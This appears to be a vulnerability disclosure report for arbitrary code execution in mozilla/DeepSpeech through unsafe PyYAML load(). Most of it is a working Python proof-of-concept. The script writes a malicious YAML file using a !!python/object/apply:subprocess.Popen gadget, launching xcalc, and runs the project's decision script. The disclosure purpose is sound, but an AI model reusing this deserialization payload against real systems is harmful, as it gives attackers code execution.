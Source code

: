 # Description
**Arbitrary Code Excecution** in mozilla/DeepSpeech.DeepSpeech is an open source embedded (offline, on-device) speech-to-text engine which can run in real time on devices ranging from a Raspberry Pi 4 to high power GPU servers.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **pyyaml**
# Exploit code
```python
import os

env = ['GITHUB_HEAD_BRANCH', 'GITHUB_HEAD_REPO_URL', 'GITHUB_HEAD_SHA', 'GITHUB_HEAD_USER', 'GITHUB_HEAD_USER_LOGIN', 'TASK_ID']

for x in env:
    if "USER" in x:
        env = "mozilla"
    elif "LOGIN" in x:
        env = "mozilla"
    elif "TASK_ID" in x:
        env = "137"
    else:
        env = ""
    os.environ[x] = env

#os.system("git clone https://github.com/mozilla/DeepSpeech.git")
os.chdir("DeepSpeech/taskcluster")
os.system("mkdir temp/")
os.system("mv *.yml *.cyml *.tyml temp/")

exploit_yaml = """build:
  metadata:
    name: "DeepSpeech Android ARM64 debug"
    description: "Building DeepSpeech for Android ARM64, debug version"

  template_file: extent_exploit.yml
"""

open("exploit.yml", "w+").write(exploit_yaml)

# data = b"""!!python/object/apply:subprocess.Popen
# - ls"""
extent_yaml = """!!python/object/apply:subprocess.Popen
- ['xcalc']
"""

# extent_yaml = """!!python/object/apply:time.sleep [10]"""

open("extent_exploit.yml", "w+").write(extent_yaml)

# os.system("python -m pip install json-e")
# os.system("python -m pip install slugid")
# os.system("python -m pip install networkx")

os.system("python tc-decision.py --dry")
```
# POC
* Run the exploit code 
* downgrade pyyaml to version 3.12

![](https://cdn.discordapp.com/attachments/749019614352244777/781965199920857088/deepspeech_ace.gif)

